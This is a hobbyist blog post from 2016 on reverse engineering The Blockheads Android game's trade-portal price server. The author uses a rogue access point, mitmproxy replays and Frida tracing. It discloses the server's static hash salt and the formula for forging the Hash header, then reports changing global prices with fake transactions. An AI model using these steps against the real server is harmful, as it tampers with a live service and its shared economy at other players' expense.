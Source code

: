 ```yaml
---
layout: post
title:  "Crash the economy, jetpacks for everyone"
date:   2016-06-28 00:00:00 +0000
category: Hacking
tags: [Android, Reversing]
---
```

## About this app
On a rainy Saturday I was bored so I decided to reverse some parts of my favorite Android game: [The Blockheads](https://play.google.com/store/apps/details?id=com.noodlecake.blockheads).
The Blockheads is a Minecraft-like game that lets you explore the world, mine for resources, build structures, craft some items and sell them in a trade portal for in-game currency.
Selling and buying items does not only affect your price, but also affects the **global** trade portal price. 
This means that if you for example sell 200 lanterns, the global price for lanterns will go down and lanterns will become cheaper for everyone (according to 
[the law of supply and demand](https://en.wikipedia.org/wiki/Supply_and_demand)).
The goal today will be to reverse engineer how transactions get sent to the priceserver and make some fake transactions to change the global price.

![Normal tradeportal](/assets/tradeportal_normal.min.png){: .post-image .center}

# 1. Recon

## How prices get modified
I set up a [wireless MitM access point]({% post_url 2016-06-26-setting-up-a-rogue-AP %}). 
I then fired up Wireshark and looked at the packets and noticed two types of HTTP requests to `priceserver.theblockheads.net`:

+ HTTP GET request to `/get_prices_v2.php`. The server responded with a JSON object full of itemIDs and prices.
  This probably updates the prices of your local tradeportal.
{% gist redfast00/2be41ea00c4d44cbf751ce8d58709a1e %}

+ HTTP POST request to `/send_prices.php`. The content of the request is a JSON object containing a worldID and transactions.
  This probably updates the global price after a local transaction in the tradeportal.
{% gist redfast00/3340dd21be60a1af8f7105e54f9905da %}

## Capturing the packets for a later replay
I configured mitmproxy to use the wireless AP and captured the HTTP streams using:

```bash
mitmdump -T --port 8080 -w transactions.flow
```

# 2. Client-side exploitation

## Finding out what itemID belongs to what item
I saw that the price updates (GET requests) and the transactions (POST requests) contained references to itemIDs.
There was one problem: I had no idea what item corresponded to what itemID. After a bit of googling, I came across
[the official viewer for The Blockheads trade portal prices](http://blockmarket.theblockheads.net/). Guess what? The links to see the 24 hour details of items contain the itemID. Awesome!

## Intercepting and modifying prices client side
Since the GET requests are served over HTTP (unencrypted/unauthenticated), I could just MitM the GET requests,
change some prices and forward the modified packets to device. I quickly banged up a mitmproxy python script that sets the price of stone 
high and all other prices ridiculously low:

```bash
mitmdump -T -q -s "rich.py"
```

{% gist redfast00/7d7ad28a7995ff81b8d62e3c7c982669 %}

![Cheap tradeportal](/assets/tradeportal_cheap.min.png){: .post-image .center}

Awesome, it worked. I can now buy as much jetpacks as I want, but all other players still have to pay full price... 
That doesn't seem too fair, so I wanted to make jetpacks *really* cheap.

# 3. Server-side exploitation

## Intercepting and modifying (part I)
Okay, this seemed fairly straightforward: I just had to replay and modify an intercepted transaction:

```bash
mitmdump -n -c transactions.flow
```

Awesome, that modified the global trade portal price. I then tried to write a script to arbitrarily modify prices:

```bash
mitmdump -n -c transactions.flow -s "send_prices_first_try.py 17 200"
## This will try to buy 200 lanterns (itemID = 17)
## Actually, it won't
```

{% gist redfast00/166ac9a94ce28004cac2f1512b746130 %}

Crap, that didn't modify the global price... I apparently overlooked something.

After making some more transactions from my test device, I figured out that there was an HTTP `Hash` 
header which was different in every POST request. Since I could just replay requests, the `Hash` header probably wasn't time-sensitive.
In order to figure out how the Hash value was generated, I tried to reverse engineer the app.

## Reversing an Android app
I first extraced and downloaded the app from my device to my computer using `adb`:

```bash
adb shell pm path com.noodlecake.blockheads
#> package:/data/app/com.noodlecake.blockheads-1/base.apk
adb pull /data/app/com.noodlecake.blockheads-1/base.apk TheBlockheads-1.6.1.apk
```
I then unpacked the app using [apktool](http://ibotpeaches.github.io/Apktool/).

```
apktool d ~/TheBlockheads-1.6.1.apk ~/blockheads/unpacked
```

While inspecting the unpacked app director, I noticed that the `AndroidManifest.xml` 
contained a bunch of keys that contained "apportable":

```xml
<meta-data android:name="apportable.expansion.main.version" android:value="1452614214" />
<meta-data android:name="apportable.expansion.main.size" android:value="63343672" />
<meta-data android:name="apportable.expansion.patch.version" android:value="0" />
<meta-data android:name="apportable.expansion.patch.size" android:value="0" />
<meta-data android:name="apportable.splash_screen_type" android:value="letterbox" />
<meta-data android:name="apportable.orientation" android:value="portrait" />
<meta-data android:name="apportable.opengles2" android:value="true" />
<meta-data android:name="apportable.opengles.fast_color" android:value="true" />
<meta-data android:name="apportable.arm_neon" android:value="true" />
<meta-data android:name="apportable.abi_list" android:value="armv7a armv7a-neon" />
```

I concluded that the app was probably built using [apportable](http://www.apportable.com/) and was 
(according to apportable’s home page) written in Objective-C or Swift.
This means that the juicy parts of the app are probably inside native libraries. And indeed:

```
lib
└── armeabi-v7a
    ├── libApplication.so
    ├── libAudioFile.so
    ├── libAudioToolbox.so
    ├── libAudioUnit.so
    ├── libBridgeKit.so
    ├── libCFNetwork.so
    ├── libCommonCrypto.so
    ├── libCoreAudio.so
    ├── libCoreFoundation.so
    ├── libCoreGraphics.so
    ├── libCoreText.so
    ├── libcrypto_1_01h.so
    ├── libcxx.so
    ├── libFoundation.so
    ├── libgles_apportable.so
    ├── libGraphicsServices.so
    ├── libicu.so
    ├── libNoodleCompatibility.so
    ├── libNoodleFoundation.so
    ├── libOpenAL.so
    ├── libpango.so
    ├── libSecurity.so
    ├── libssl_1_01h.so
    ├── libSystemConfiguration.so
    ├── libSystem.so
    ├── libv.so
    └── libxml2.so
```

and:

```bash
strings blockheads/unpacked/lib/armeabi-v7a/libApplication.so | grep "priceserver"
#> http://priceserver.theblockheads.net/get_price_graph_data.php?item_id=%d
#> http://priceserver.theblockheads.net/send_prices.php
#> http://priceserver.theblockheads.net/get_prices_v2.php
```

I then listed all imports in `libApplication.so` looking for something that looked like a hash function using [radare2](http://radare.org/r/):

```bash
r2 libApplication.so
```

```
[0x0015ef40]> ii | grep "type=FUNC"
```

This returned two possible candidates: `CC_MD5` and `CFHash`. After a quick search, `CFHash` was eliminated.
I then instrumented the `CC_MD5` function using [Frida](http://frida.re). After reading the [CC_MD5 docs](https://developer.apple.com/library/ios/documentation/System/Conceptual/ManPages_iPhoneOS/man3/CC_MD5.3cc.html), I wrote a Frida JS script which shows the input and output of `CC_MD5` every time it's called.

{% gist redfast00/e1ce5675d66fee600eeb2db46bec402f %}

```bash
frida-trace -U com.noodlecake.blockheads -i CC_MD5
```

```
7ba0ce9d53ce2ac394915efdbdb3505273vjaclg3287tdskjtrade_v_1{"worldID":"7ba0ce9d53ce2ac394915efdbdb35052","transactions":{"17":1}}
7ba0ce9d53ce2ac394915efdbdb3505273vjaclg3287tdskjtrade_v_1{"worldID":"7ba0ce9d53ce2ac394915efdbdb35052","transactions":{"17":2}}
7ba0ce9d53ce2ac394915efdbdb3505273vjaclg3287tdskjtrade_v_1{"worldID":"7ba0ce9d53ce2ac394915efdbdb35052","transactions":{"17":-2}}
```

I then stared at the string for a minute and figured out how the `Hash` header is formed (in pseudo-code):

```python
MD5(worldID +  "73vjaclg3287tdskjtrade_v_1" + JSON_transactions)
```

(I confirmed that "73vjaclg3287tdskjtrade_v_1" is a static by running `strings` on `libApplication.so`)

## Intercepting and modifying (part II)
I knew everyhing I needed: I typed up a mitmdump python script to change the transactions in the saved flows:

{% gist redfast00/3c20dc0c19c79b10f78580eaab0e13e6 %}

```bash
mitmdump -n -c transactions.flow -s 'send_prices.py 17 200'
## This will try to buy 200 lanterns (itemID = 17)
## It just might work
```

The price of lanterns went up: it worked! I am now able to modify prices without actually buying anything. Mission accomplished.

![Jetpacks for everyone](/assets/oprah_giving.min.jpg){: .post-image .center}